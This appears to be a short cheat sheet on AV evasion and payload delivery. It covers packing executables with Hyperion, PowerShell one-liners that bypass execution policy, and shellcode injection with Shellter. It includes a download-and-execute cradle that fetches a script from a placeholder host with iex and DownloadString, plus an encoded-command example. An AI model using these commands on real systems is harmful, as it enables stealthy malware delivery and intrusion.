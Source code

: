 # [hyperion](https://web.archive.org/web/20191116023532/https://nullsecurity.net/tools/binary.html):
#### `wine hyperion.exe <file> <output_file>`
  *  packs the executable for av evasion and anti-reverse-engineering

# [powershell](https://docs.microsoft.com/en-us/powershell/):
#### `powershell.exe iex (New-Object System.Net.WebClient).DownloadString('http://X.X.X.X/file.ps1')`
#### `type .\file.ps1 | powershell.exe -nop -`
#### `powershell.exe -Enc YmFzZTY0IGVuY29kZWQgc2NyaXB0`
#### `GC .\file.ps1 | iex`
#### `Set-ExecutionPolicy Bypass -Scope Process`
  * iex runs it in memory instead of saving to disk
  * -ExecutionPolicy Bypass gets around some powershell restrictions
  * -Enc is short for EncodedCommand can run base64 encoded scripts / text
  * GC is short for Get-Content and can bypass some restrictions
  * Set-ExecutionPolicy is a temporary bypass for some restrictions
  
# [shellter](https://www.shellterproject.com/introducing-shellter/):
#### `choose a target to inject shellcode into`
#### `can do "stealth mode" which attempts to restore execution of target executable after shellcode`